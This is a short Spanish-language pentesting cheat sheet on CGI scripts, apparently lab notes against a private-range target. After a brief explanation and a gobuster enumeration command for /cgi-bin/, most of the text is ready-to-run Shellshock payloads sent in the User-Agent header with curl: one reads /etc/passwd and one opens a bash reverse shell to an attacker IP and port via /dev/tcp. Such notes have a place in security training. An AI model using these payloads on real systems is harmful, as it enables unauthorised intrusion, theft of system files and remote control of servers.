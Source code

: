 ### INFO

- Conectan aplicaciones webs con otras aplicaciones corriendo en un server.
- Los programas que realizan estas conexiones se guardan en la carpeta /CGI-bin.

### ENUM

    gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi


### EXPLOITATION

##### Via user-agent:
Podemos envenenar el user-agent con curl o mediante el repeater de burp

##### Leer un archivo

    curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi


##### Generar una reverseshell

    curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
